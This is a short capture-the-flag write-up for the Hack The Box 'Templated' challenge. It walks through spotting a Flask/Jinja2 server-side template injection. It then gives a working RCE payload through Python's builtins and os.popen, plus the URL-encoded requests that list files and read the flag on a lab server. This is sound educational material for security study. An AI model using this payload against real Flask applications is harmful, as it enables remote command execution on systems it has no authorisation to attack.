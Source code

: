 # 159.65.89.165:31913

# Site

![templated-htb](https://user-images.githubusercontent.com/98345027/189034879-9c7bc294-cc9d-4f03-9e8d-5f48d66c813c.png)

#### Inspecting the page

![network-htb-templated](https://user-images.githubusercontent.com/98345027/189035349-a9d520a0-1454-414c-bcd0-34ec23959481.png)

### Findings
```javascript
Werkzeug/1.0.1 Python/3.9.0
```

`` A quick google search about "Wekzeug 1.0.1" leads to this`` ![page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) `` where we get to know about  RCE`` 

```python
If we type http:url:port/console , notice that the webpage reflect the keyword what ever we search for. This relates to common vulnerability on jinja2 that is SSTI. This ia good Reference https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

```
![templated-console-htb](https://user-images.githubusercontent.com/98345027/189036753-247e914c-e9d5-4c1f-b288-1104d514fca5.png)

`` To Confirm it we try random text``

![templated-htb-random-try](https://user-images.githubusercontent.com/98345027/189037944-2479600b-262a-4b96-98ee-37facd67ea4e.png)

### SSTI

```javascript
Since we know that the server is running on flask which is a Python Library, Which we can make use of Method Resolution Order (MRO) to traverse up the request library in Flask to import os library as shown in the Reference
```
```javascript
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

#### Exploit Testing

```javascript
1.First we check for id command
```
![exploit-templated-htb](https://user-images.githubusercontent.com/98345027/189039146-a4fad9ad-54ac-46ac-ab3d-8a34ece121a6.png)

```javascript
1. Checking for current directory 
http://159.65.89.165:31913/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('pwd').read()%7D%7D
```

```javascript
2.Listing All the files
http://159.65.89.165:31913/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('ls%20-la').read()%7D%7D
```
![flag-txt-htb-templated](https://user-images.githubusercontent.com/98345027/189039935-c83cb091-0db8-4d43-a00a-a5a15e2bac4f.png)

```
Once we confirmed that in the current directory there is flag we can run a command to print the flag on the screen itself
http://159.65.89.165:31913/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()%7D%7D
```

![actual-flag-htb-templated](https://user-images.githubusercontent.com/98345027/189040390-fb0340e5-287c-4971-9f6c-c323494b0e1c.png)


